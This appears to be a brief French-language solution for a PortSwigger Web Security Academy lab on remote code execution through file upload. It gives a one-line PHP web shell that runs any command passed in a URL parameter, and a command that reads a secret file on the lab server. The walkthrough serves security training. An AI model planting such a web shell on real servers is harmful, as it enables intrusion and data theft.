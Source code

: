 # Lab

https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload

## Solution

Uploader un shell php simple :

```php
<?php system($_GET['cmd']); ?>
```

Et executer `cat /home/carlos/secret` puis submit la solution.